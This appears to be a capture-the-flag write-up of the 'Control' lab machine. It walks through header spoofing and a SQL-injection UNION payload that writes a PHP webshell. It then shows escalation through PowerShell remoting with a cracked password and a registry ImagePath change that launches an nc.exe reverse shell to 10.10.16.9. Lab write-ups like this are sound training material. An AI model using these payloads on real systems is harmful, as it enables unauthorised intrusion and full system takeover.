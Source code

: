 # Control

## Gaining Access

Nmap Scan:

<figure><img src="../../../.gitbook/assets/image (164) (4).png" alt=""><figcaption></figcaption></figure>

### X-Forwaded-For Bypass

Using `gobuster` we can find the directories:

<figure><img src="../../../.gitbook/assets/image (15) (1) (7).png" alt=""><figcaption></figcaption></figure>

When trying to access the `admin.php` page, we get this error:

<figure><img src="../../../.gitbook/assets/image (41) (2) (2).png" alt=""><figcaption></figcaption></figure>

Perhaps we can spoof the `X-Forwarded-For` header using an IP address. When checking the page sources of multiple pages, we can find this:

<figure><img src="../../../.gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

Appending the `X-Forwarded-For: 192.168.4.28` header, we can access the `admin.php` page.

### SQL Injection for Webshell

Within the `admin.php` page, we can find that there is an application that is able to search for products.

<figure><img src="../../../.gitbook/assets/image (10) (1) (6).png" alt=""><figcaption></figcaption></figure>

We can attempt SQL Injection easily and confirm there is an unsanitsed input being passed.

<figure><img src="../../../.gitbook/assets/image (1) (9).png" alt=""><figcaption></figcaption></figure>

With this, I attempted UNION Injection to find out how many columns there were. In total, there were 6.

We can write a webshell into the normal working webroot directory:

```sql
\' UNION SELECT '<?php system($_GET[\'cmd\']); ?>',2,3,4,5,6 INTO OUTFILE 'C:\inetpub\wwwroot\shell.php'#
```

Then, we can check for RCE:

<figure><img src="../../../.gitbook/assets/image (39) (4).png" alt=""><figcaption></figcaption></figure>

Afterwards, gaining a reverse shell is trivial:

<figure><img src="../../../.gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### MariaDB Credentials

Within the machine, we can find the other users that were present:

<figure><img src="../../../.gitbook/assets/image (27) (5).png" alt=""><figcaption></figcaption></figure>

So we are looking for credentials for Hector. Understanding that there was a MariaDB instance running on the machine, I checked the files that were related to that first.&#x20;

Within the `C:\MariaDB\mysql` folder, we can find hashes for a user:

<figure><img src="../../../.gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

Alternatively, we could use the SQL Injection vulnerability to dump these credentials out. Anyways, we would find a hash for the Hector user. His hash can be cracked on CrackStation to give `l33th4x0rhector`.

Enumerating the privileges that Hector has, we also see that he's part of the Remote Management Group:

<figure><img src="../../../.gitbook/assets/image (4) (5) (3).png" alt=""><figcaption></figcaption></figure>

This means that we can remotely access Hector's account over WinRM. Since there was no WinRM port available for me to use `evil-winrm`, I opted for Remote Powershelling.

```powershell
$pass = ConvertTo-SecureString 'l33th4x0rhector' -AsPlainText -Force
$cred = New-Object System.Management.Automation.PSCredential("CONTROL\Hector",$pass)
Invoke-Command -Computing localhost -ScriptBlock { whoami } -Credential $cred
```

We can use this to execute `nc.exe` to give us another reverse shell as Hector.

<figure><img src="../../../.gitbook/assets/image (3) (7).png" alt=""><figcaption></figcaption></figure>

### Powershell History

This part was a tad tricky. I ran a WinPEAS and it picked up on the Powershell history for Hector.

<figure><img src="../../../.gitbook/assets/image (17) (4).png" alt=""><figcaption></figcaption></figure>

When running these commands, I get a load of text that I don't really understand:

<figure><img src="../../../.gitbook/assets/image (19) (4) (2).png" alt=""><figcaption></figcaption></figure>

Perhaps this was a clue to look into the ACLs and permissions Hector has.

### Service Registry Permissions

Picking up on the rest of WinPEAS output, we see that Hector has FullControl permissions over loads of services.

<figure><img src="../../../.gitbook/assets/image (26) (5).png" alt=""><figcaption></figcaption></figure>

FullControl permissions can be abused for forms of DLL Hijacking, or changing certain properties to execute scripts or files of our choosing.&#x20;

To exploit this, we need to find a service that satisfies 3 conditions:

* Is not started by default, and we need to manually start it
* Have FullControl permissions over it to alter its properties to execute scripts
* Run by `LocalSystem` to ensure that we run our scripts as the SYSTEM user.

I began enumeration for services that I could restart. I found a resource here that told us what specific permissions we needed:

{% embed url="http://woshub.com/set-permissions-on-windows-service/" %}

```
CC — SERVICE_QUERY_CONFIG (request service settings)
LC — SERVICE_QUERY_STATUS (service status polling)
SW — SERVICE_ENUMERATE_DEPENDENTS
LO — SERVICE_INTERROGATE
CR — SERVICE_USER_DEFINED_CONTROL
RC — READ_CONTROL
RP — SERVICE_START
WP — SERVICE_STOP
DT — SERVICE_PAUSE_CONTINUE
```

In this case, we need the `RP` permission to restart a service. To check whether a service is run by `LocalSystem`, we would have to refer to the `SERVICE_START_NAME` variable when using `sc.exe` to query the service. Lastly, we can refer to this table for the values of the `START_TYPE` variable to find a service that is started manually (3 is the value we are looking for):

<figure><img src="../../../.gitbook/assets/image (6) (5).png" alt=""><figcaption></figcaption></figure>

When looking through the services that Hector had FullControl permissions over (via WinPEAS output), we find this one:

<figure><img src="../../../.gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

This service certainly fits the conditions needed. We can use `sc.exe config` to modify the `binpath` variable to give us a reverse shell. However, the `sc.exe` method lept failing.

<figure><img src="../../../.gitbook/assets/image (28) (1).png" alt=""><figcaption></figcaption></figure>

I tried the Powershell `Set-ItemProperty` method, and it worked better:

```powershell
Set-ItemProperty -path HKLM:\System\CurrentControlSet\services\wuauserv -name ImagePath -value "C:\Windows\System32\spool\drivers\color\nc.exe -e cmd.exe 10.10.16.9 6666"
```

Afterwards, we can start the service and get a shell as the administrator. (I don't have screenshots of the administrator shell D:)
